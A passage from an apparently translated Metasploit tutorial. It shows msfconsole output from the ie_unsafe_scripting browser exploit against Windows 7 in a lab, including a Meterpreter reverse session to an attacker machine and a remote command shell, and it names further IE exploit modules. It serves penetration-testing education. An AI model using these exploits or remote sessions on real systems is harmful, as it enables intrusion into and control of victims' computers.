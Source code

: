 让我们切换到攻击 msfconsole 并注意活动。我们将注意到以下命令行活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.1:51115...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.1:51115...
[*] Exe will be uddoE.exe and must be manually removed from the %TEMP% directory on the target.
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:51116) at 2011-11-12 21:15:47 +0530 
```

我们还有一个与 Windows 7 机器打开的活动会话。让我们开始与我们的会话互动：

```
msf exploit(ie_unsafe_scripting) > sessions
Active sessions
===============
Id Type Information Connection
-- ---- ----------- ----------
1 meterpreter x86/win32 DARKLORD-9CAD38\darklord
2 meterpreter x86/win32 HackingAlert-PC\hackingalert 
```

正如你所看到的，`sessions`命令显示了我们可以使用的活动会话。一个是我们的 Win XP 机器，另一个是 Win7 机器。让我们继续与第二个会话互动，也就是 Windows 7 机器。

```
msf exploit(ie_unsafe_scripting) > sessions -i 1
meterpreter > shell
Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32> 
```

## 它是如何工作的...

工作过程可能对你来说很清楚。让我们专注于这个利用的原因。当设置“未标记为脚本安全的 ActiveX 控件的初始化和脚本”时，它允许访问`WScript.Shell` ActiveX 控件。这个`WScript.Shell`对象提供了读取文件系统、环境变量、读取和修改注册表以及管理快捷方式的功能。`WScript.Shell`的这个特性允许攻击者创建一个 JavaScript 来与文件系统交互并运行命令。

## 还有更多...

让我们谈谈另一个可以在客户端攻击中使用的重要基于浏览器的利用。

### Internet Explorer Aurora 内存损坏

这是另一个广泛使用的 IE 利用，于 2010 年中期曝光。这个漏洞是“极光行动”的关键组成部分，黑客们针对一些顶级公司。该模块利用了 IE 6 中的内存损坏漏洞。我将把这个模块留给你作为一个练习来尝试和探索。利用可以在`exploit/windows/browser/ms10_002_aurora`中找到。

# Internet Explorer CSS 递归调用内存损坏

这是 Windows 平台上运行 IE 浏览器的最新利用之一。这个利用已知影响 Windows 7 和 Windows 2008 服务器，IE 8 作为默认浏览器。这个利用的工作过程与我们刚刚在上一个示例中讨论的工作过程类似。所以让我们快速测试一下。我们的目标机器是运行 IE 8（未打补丁）的 Windows 7 旗舰版。
